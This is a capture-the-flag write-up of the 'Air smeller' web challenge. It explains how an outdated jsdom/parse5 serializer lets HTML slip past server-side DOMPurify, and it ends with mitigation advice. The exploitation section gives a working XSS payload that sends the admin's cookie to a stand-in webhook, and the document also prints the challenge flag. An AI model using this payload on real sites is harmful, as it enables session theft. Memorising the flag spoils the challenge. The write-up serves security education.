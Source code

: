 ```yaml
---
title: Air smeller
author: D_K
description: I found this website where you can rate the smell of the air, after purification. Do you know a good purifier, maybe you can recommend some purifier to the people.
categories:
    - Web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** This challenge is about a **DOMPurify** bypass
    **- Key Discoveries:** **DOMPurify** is used server-side
    **- Vulnerability:** The used **JSDOM** library to offer a DOM parser for **DOMPurify** is outdated
    **- Exploitation:** By abusing an implementation but in the old **JSDOM** version, we can bypass **DOMPurify**

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to identify and exploit a bypass in **DOMPurify** to achieve Cross-Site Scripting (XSS) and ultimately steal the admin's cookie. The challenge description already hints at the role of a sanitizer in the exploitation process.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Fortunately, the source code for the website is provided in this challenge. It is a small website built with **Next.js** using **React** and written in **TypeScript**. An admin bot, using **Chromium**, checks the website every 60 seconds and carries the flag in its cookie. Moreover, the attribute `httpOnly: false` allows us to access the cookie via JavaScript, so there is a high probability that this is an XSS challenge.
<span>
On the landing page, where we can submit our ratings, the input is reflected in both input fields:

![landing page](ctf/writeups/cscg/airsmeller/landing_page.png "landing page")

But it seems like there is some kind of sanitizer removing malicious input from the comment field and thus preventing XSS. A closer look at the source code in `src/components/ratings.tsx` reveals that the sanitizer used for filtering malicious comments is **DOMPurify**, a very popular and powerful XSS sanitizer. The sanitized output is then injected into the comment section using **React**'s `dangerouslySetInnerHTML`. It functions similarly to the traditional `innerHTML` in vanilla JavaScript. Thus, the comment input field acts as an HTML injection vector. The reason for this design decision could be to allow users to style their comments in a fancy way with some HTML tags. This means that bypassing **DOMPurify** should be enough to have an XSS.
<span>
In this challenge, **DOMPurify** is used server-side, so it requires a DOM parser. The challenge uses **jsdom** for this purpose and a look at the `package.json` reveals that **DOMPurify** is slightly outdated. Notably, to exploit the mXSS-style bypass, which was patched in the latest version, requires a non-default configuration of **DOMPurify**, enabling the `SAFE_FOR_TEMPLATES` option; we don't have the luxury of this in this challenge.
<span>
More interestingly, the version of **jsdom** v19.0.0 is quite old. Reviewing the [README](https://github.com/cure53/DOMPurify?tab=readme-ov-file\#running-dompurify-on-the-server) of **DOMPurify** confirms that the older version of **jsdom** may introduce vulnerabilities:

```
Running DOMPurify on the server requires a DOM to be present, which is probably no surprise. Usually, jsdom is the tool of choice and we strongly recommend using the latest version of jsdom.

Why? Because older versions of jsdom are known to be buggy in ways that result in XSS even if DOMPurify does everything 100% correctly. There are known attack vectors in, e.g. jsdom v19.0.0 that are fixed in jsdom v20.0.0 - and we really recommend keeping jsdom up to date because of that.
```

# 3. Bypassing DOMPurify - Finding differentials<a id="bypassing DOMPurify - finding differentials"></a>
Bypassing **DOMPurify** is challenging when it is used correctly. Typically, you would use the latest version of **DOMPurify** client-side so that the sanitizer uses the same DOM parser as the browser rendering the website. When using a sanitizer like **DOMPurify**, the untrusted payload is parsed at least two times:
<span>
The first time, by the DOM parser used by **DOMPurify**, and the second time by the DOM parser of the browser, the website is being rendered on. Using the **DOMPurify** client-side avoids parser differentials that originate from **DOMPurify** using a different parser in the backend than the client. Nevertheless, bypassing even the latest version of **DOMPurify** running client-side is not impossible. If you are interested in the whole topic around mutation XSS (mXSS), I can highly recommend [this article](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes).
<span>
As mentioned, the challenge uses **DOMPurify** server-side with an outdated DOM parser **jsdom**. This design decision might be intended to prevent malicious payloads from reaching the server's database, reducing the overhead for clients and ensuring that even a tampered client gets sanitized content. Essentially, the challenge goal is to find bugs in the parser or serializer implementation of **jsdom** and exploit them. With the help of such a bug, we could craft a malicious payload so the **DOMPurify** sanitization process using **jsdom** won't detect it. But when the payload is being rendered in **Chromium** with its underlying **DOMParser**, this will lead to malicious behavior. To find the differential, we have to dive deep into the source code of **jsdom** and its underlying parser and serializer, **parse5**.
<span>
With the outdated **jsdom** version, we review the corresponding [release notes](https://github.com/jsdom/jsdom/releases/tag/20.0.0) and discover several noteworthy fixes introduced in **jsdom** v20.0.0:

```
Updated parse5, bringing along some HTML parsing and serialization fixes. (fb55)
```

This change motivates us to examine the exact [code modifications](https://github.com/jsdom/jsdom/commit/2e355263e5cae2e4647b0956f777c0abd2c62d5b). Aside from updating the underlying HTML parser and serializer **parse5** to v7.0.0, nothing particularly exploitable in **jsdom** itself is immediately apparent. Further investigation into the [release notes](https://github.com/inikulin/parse5/releases/tag/v7.0.0) for **parse5** v7.0.0 reveals a significant [pull request](https://github.com/inikulin/parse5/pull/383) titled:

```
Refactor & improve serializer
```

Moreover, an interesting [issue](https://github.com/inikulin/parse5/issues/333) describes a bug in the HTML serializer where the namespace of any content is not properly checked before decoding and applying it to the corresponding node. For example, given input like:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

**jsdom**'s `innerHTML` serializes it as:

```html
<svg><style><</style></svg>

<style>&lt;</style>
```

whereas **Chromium**'s **DOMParser**, following the HTML specification, serializes it as:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

In short, **jsdom** decodes the opening tag in the SVG namespace, which is not valid per the [HTML specification](https://html.spec.whatwg.org/#serialising-html-fragments). During initialization, **DOMPurify** creates a document with:

```javascript
doc = new DOMParser().parseFromString(dirtyPayload, PARSER_MEDIA_TYPE);
```

The **jsdom** implementation of `parseFromString` uses the **parse5** [parser](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/parser/index.js). Eventually after sanitization, **DOMPurify** calls:

```javascript
let serializedHTML = WHOLE_DOCUMENT ? body.outerHTML : body.innerHTML;    
```

This will internally use the **parse5** [serializer](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/serializer/index.js), which has the aforementioned namespace-dependent bug. Thus, the malicious payload is processed in the following stages, each potentially modifying its HTML structure and representation:
<span>
Dirty HTML → **parse5** parser → **DOMPurify** sanitizer → **parse5** serializer → **Chromium** **DOMParser**
<span>
**DOMPurify** assumes that the DOM parser implements the HTML specifications correctly. In this case, it doesn't interpret the `&lt;` as an opening tag, because it relies on the output of the **jsdom** serializer. The serializer treats it as a text node `#text` within the `style` tag, similar to regular content, for example, in a `p` tag. However, after sanitization calling `innerHTML` and thus using the buggy **parse5** serializer, the harmless `&lt;` is decoded as an actual HTML opening tag `<`, causing **DOMPurify** to return a malicious payload with the encoded tag. So effectively, in this challenge **DOMPurify** itself potentially makes harmless inputs harmful.
<span>
There are additional bugs in **parse5** v6.0.0, such as [this one](https://github.com/inikulin/parse5/pull/451), which might also be exploitable in this challenge. The difference from the previously described bug is that this one occurs in the **parse5** parser, whereas the earlier bug was in the **parse5** serializer. According to the HTML specification, the closing tags `</br>` and `</p>` must not be children of `<svg>` or `<math>` elements. If they are placed inside these elements, they are automatically moved outside, effectively closing the `<svg>` or `<math>` tags. For instance, a payload like:

```html
<svg></br><a>
```

will be serialized by **jsdom**'s `innerHTML` as

```html
<svg><span><a></a></svg>
```

while **Chromium**'s **DOMParser** serializes it as:

```html
<svg></svg><span><a></a>
```

It is worth noting that all of this code search in GitHub was not necessary to uncover the parser differentials and even a working payload for the challenge. For more insights into parsing differentials used to bypass HTML sanitizers like **DOMPurify**, I refer to [this research paper](https://www.ias.cs.tu-bs.de/publications/parsing_differentials.pdf).

# 4. Exploitation<a id="exploitation"></a>
The final payload is straightforward once you understood the serializer bug in **parse5**:

```html
<svg><style>&lt;img src onerror='window.location=(`reqest-bin/${document.cookie}`)';><a>
```

By using the encoded opening tag `&lt;`, we can inject an image tag with an `onerror` event past the **DOMPurify** sanitizer. This event triggers a redirect to our webhook, effectively exfiltrating the cookie that contains the flag `CSCG{0ld_A1r_Smeels_B4d}`.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is about using **DOMPurify** with an outdated version of **jsdom** (and consequently an outdated **parse5** version). Updating these dependencies would resolve the issue. So always precisely read the documentation on how to use security-relevant libraries like **DOMPurify**. Additionally, shifting **DOMPurify** from a server-side to a client-side implementation would prevent parser and serializer differentials, as the same DOM parser would be used throughout. Implementing a robust Content Security Policy (CSP) further restricts JavaScript execution, adding another layer of defense against XSS. Morover, try to use `httpOnly` cookies on your website if none of your javascript needs to access cookies. Finally, if not absolutely necessary, avoid using `innerHTML` (or in this case `dangerouslySetInnerHTML`) with untrusted input.

# 6. Flag<a id="flag"></a>
CSCG{0ld_A1r_Smeels_B4d}
